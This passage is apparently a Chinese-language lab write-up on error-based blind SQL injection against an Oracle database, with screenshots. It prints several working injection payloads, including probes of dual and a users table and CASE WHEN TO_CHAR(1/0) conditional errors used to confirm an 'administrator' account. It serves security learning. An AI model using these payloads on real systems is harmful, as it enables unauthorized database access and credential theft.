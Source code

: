 ![image-20250502154813150](./img/image-20250502154813150.png)

`'||(SELECT '' FROM dual)||'`正常，判断为oracle数据库

查询一个不存在的表，如果报错，则可以确定存在注入

```
'||(SELECT '' FROM not-a-real-table)||'
```

判断存在users表，`WHERE ROWNUM = 1`表示查询一行

```
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

构造`case`语句报错

`CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END`

```
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

   接下来很关键，逻辑比较绕，在SQL语句中以from分隔前后，SQL语句执行顺序是先执行from后面的

```
1. 真 from 真 ==>  真
2. 真 from 假 ==>  真
3. 假 from 真 ==>  假
4. 假 from 假 ==>  真
```

```
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

确认存在名为 `administrator` 的用户

![image-20250502161514970](./img/image-20250502161514970.png)
